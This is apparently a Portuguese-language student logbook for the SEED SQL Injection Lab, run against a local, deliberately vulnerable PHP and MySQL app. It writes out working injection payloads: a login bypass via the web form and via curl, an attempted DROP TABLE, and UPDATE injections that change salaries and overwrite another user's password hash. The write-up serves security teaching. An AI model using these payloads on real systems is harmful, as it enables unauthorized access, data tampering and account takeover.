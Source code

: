 # SQL Injection Lab

## Environment Setup

> Primeiramente para resolver este _lab_ começamos por adicionar ```www.seed-server.com``` aos _hosts_ fazendo ```sudo nano etc/hosts``` e adicionando ```10.9.0.5 www.seed-server.com```. Depois executamos os containers com ```docker-compose build``` e ```docker-compose up```. E depois fazemos ```docksh 88``` para abrir o MYSQL container e por último fazemos ```mysql -u root -pdees``` e ```use sqllab_users;``` para executar o mysql como superuser e selecionar o schema.

## Task 1: Get Familiar with SQL Statements

> A tarefa envolveu a seleção de dados para o _user_ "Alice".  Inspecionando o ficheiro ```sqllab_users.sql``` conseguimos rapidamente identificar o comando correto para realizar esta operação:
> ```sql
> SELECT * FROM `credential` WHERE Name = "Alice";
> ```
> Conseguimos assim obter todos os dados da Alice:
![Alice dados](images/logbook8/dadosAlice.png)

##  Task 2: SQL Injection Attack on SELECT Statement

### Task 2.1 - Login in adminstrator mode from webpage

> Exploramos o _site_ ```www.seed-server.com``` fornecido pelo _Docker_, bem como o ficheiro ```unsafe_home.php```. Observamos que a _query_ é vulnerável, pois o servidor gera dinamicamente o comando com _strings_ não sanitizadas provenientes da entrada do _user_:
> ```sql
> SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password FROM credential WHERE name= '$input_uname' and Password='$hashed_pwd'
> ```
> Aproveitando o facto de o campo da _password_ ser criptografado, torna-se vantajoso manipular a funcionalidade de pesquisa utilizando apenas o campo do _username_.<br> Ao utilizar ```admin'#```, asseguramos acesso privilegiado, pois toda a verificação da chave de acesso torna-se irrelevante ao ser comentada. Dessa forma, o código executado no lado do servidor passa a ser o seguinte:
> ```sql
> SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password FROM credential WHERE name='admin'# and Password=’$hashed_pwd’
> ```
> Conforme antecipado, conseguimos fazer login na conta do administrador, possibilitando assim a obtenção de todos os dados relacionados aos demais usuários do aplicativo:
![Admin Page](images/logbook8/adminPage.png)

### Task 2.2 - Login in adminstrator mode from command line

> O ataque foi realizado através de um pedido GET. Como por exemplo a seguinte linha:
>```bash
>curl "www.seed-server.com/unsafe_home.php?username=username&Password=password"
>```
> Com o mesmo _input_ da secção anterior, desta vez cifrado usando as convenções (%27 = ' e %23 = #), obtivemos o seguinte comando malicioso:
> ```bash
> curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
> ```
> Com isso, conseguimos obter o código HTML de toda a página que continha as informações pessoais dos utilizadores.

![htmlPagina](images/logbook8/htmlPagina.png)

### Task 2.3 - Append a new SQL statement

> Podemos inserir novos comandos SQL usando ```;```. Para realizar isso, modificamos a nossa entrada maliciosa inicial para causar um efeito colateral no servidor. Por exemplo, excluindo a tabela de credenciais:
> ```sql
> admin'; DROP TABLE IF EXISTS credentials; #
> ```
> Contudo esta operação nao foi executada por um erro na base de dados:
![erro](images/logbook8/erro.png)
> Conforme indicado nesta [fonte](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php), a extensão MySQL utilizada pelo PHP no servidor possui uma salvaguarda que previne a execução de várias consultas simultâneas, o que resultou na impossibilidade de concluir o ataque.

## Task 3: SQL Injection Attack on UPDATE Statement

### Task 3.1 - Modify your own salary

> Depois de realizar o _login_ com uma conta do sistema (username: Alice e password: seedalice), ganhamos acesso a uma página para editar informações pessoais. Essa página é gerida pelo ficheiro fornecido ```unsafe_edit_backend.php```, que contém uma consulta também construída dinamicamente com _strings_ não sanitizadas provenientes da entrada do utilizador. O nosso ataque envolve a manipulação do número de telefone. Utilizando a mesma técnica dos tópicos anteriores, conseguimos criar o seguinte código capaz de manipular o salário do utilizador:
> ```sql
> 910000000',Salary='1111111
> ```
> É relevante notar que a ' antes do valor do salário é crucial para concluir a última instrução antes do ```WHERE```. Em última análise, o servidor executou o seguinte código:
> ```sql
> UPDATE credential SET
> nickname='$input_nickname',
> email='$input_email',
> address='$input_address',
> Password='$hashed_pwd',
> PhoneNumber='910000000',Salary='1111111' WHERE ID=$id;
> ```
> Tal como previsto, a variável salário foi também alterada para o valor escolhido:
![Salario Mudado](images/logbook8/salarioMudado.png)

### Task 3.2 - Modify other people’s salary

> Para alterar o valor do salário de outro utilizador usamos uma técnica parecida com a anterior. No entanto criamos uma WHERE clause diferente e comentamos a que estava no sistema para não interferir na pesquisa:
```sql
910000000',Salary='1' WHERE Name='Boby'#
```
> Com este input, o servidor executou o seguinte código:
> ```sql
> UPDATE credential SET
> nickname='$input_nickname',
> email='$input_email',
> address='$input_address',
> Password='$hashed_pwd',
> PhoneNumber='910000000',Salary='1' WHERE Name='Boby'# WHERE ID=$id;
> ```
> Aqui podemos ver o valor do salário do Boby depois do ataque:
![Bobysalario](images/logbook8/bobySalario.png)

### Task 3.3 - Modify other people’s password

> Para modificar a _password_ de outro utilizador, aplicamos uma abordagem semelhante à anterior. No entanto, desta vez, o valor a ser alterado foi previamente criptografado com ```SHA1```. Por exemplo, para a nova senha ```porto```, o hash correspondente é ```f964830041e7f6e73528372085ba3cb8c2717e1b```.
> ```sql
> 910000000', password='f964830041e7f6e73528372085ba3cb8c2717e1b' WHERE name='Boby'#
> ```
> Com este _input_, o servidor executou o seguinte código:
> ```sql
> UPDATE credential SET
> nickname='$input_nickname',
> email='$input_email',
> address='$input_address',
> Password='$hashed_pwd',
> PhoneNumber='910000000', password='f964830041e7f6e73528372085ba3cb8c2717e1b' WHERE name='Boby'# WHERE ID=$id;
> ```
> Com a nova palavra passe alterada, conseguimos entrar na conta do Boby:
![passwordMudada](images/logbook8/passwordMudada.png)